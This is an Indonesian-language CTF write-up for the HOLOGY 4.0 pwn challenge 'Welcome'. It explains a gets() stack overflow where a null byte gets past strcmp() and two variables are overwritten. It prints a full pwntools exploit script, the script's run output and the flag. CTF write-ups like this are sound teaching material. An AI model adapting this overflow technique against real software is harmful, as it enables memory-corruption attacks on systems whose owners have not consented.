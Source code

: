 # Welcome (100 Pts)

## Deskripsi
Apakah soal ini sanity check? Hmm.. Aku tidak yakin kalau itu adalah flag asli

Author : Inlandsche

nc 13.214.13.126 31337

## Hint 
Tidak ada

## Proof of Concept
Pertama, lakukan analisa kode program dengan menggunakan software disassambler (`ghidra/IDA`) atau dengan `gdb`.
Program memiliki kelemahan pada fungsi `gets()`. Untuk mendapatkan flag, diharuskan melakukan overwrite terhadap dua variabel agar sesuai dengan keinginan program. Agar dapat melakukan overwrite, kita harus melakukan bypass fungsi `strcmp()` dengan menambahkan **null bytes** `\x00`.


Script python untuk menyelesaikannya

```
from pwn import *

p = process('./welcome')

strcmp = b"IsThisReal?"

# Address didapatkan dengan menggunakan gdb
# Address ini merupakan address dari string yang dibutuhkan 
competition = 0x40204a
glaf = 0x402054

# Perhitungan offset dapat dilakukan secara manual atau dengan pwn cyclic
offset_glaf = 28

payload = strcmp

# Byte kosong digunakan untuk bypass strcmp()
payload += b"\x00"
payload += b"a"*offset_glaf
payload += p64(glaf)
payload += p64(competition)


p.sendline(payload)
p.interactive()
```

Output dari script tersebut

```
[*] '/home/inlandsche/CySec/Hology/Hology Soal/Welcome/welcome'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[x] Starting local process '/home/inlandsche/CySec/Hology/Hology Soal/Welcome/welcome'
[+] Starting local process '/home/inlandsche/CySec/Hology/Hology Soal/Welcome/welcome': pid 9588
[*] Switching to interactive mode
Selamat datang di HOLOGY 4.0

hology4{w3lc0m3_t0_hology}

Nice!
hology4{0v3Rwr1te_iz_ez_y4h4h4}
[*] Process '/home/inlandsche/CySec/Hology/Hology Soal/Welcome/welcome' stopped with exit code 0 (pid 9588)
[*] Got EOF while reading in interactive
```

<details>
<summary>Flag : </summary>
hology4{0v3Rwr1te_iz_ez_y4h4h4}
</details>

## Referensi
Soal Angstrom CTF (sanity)
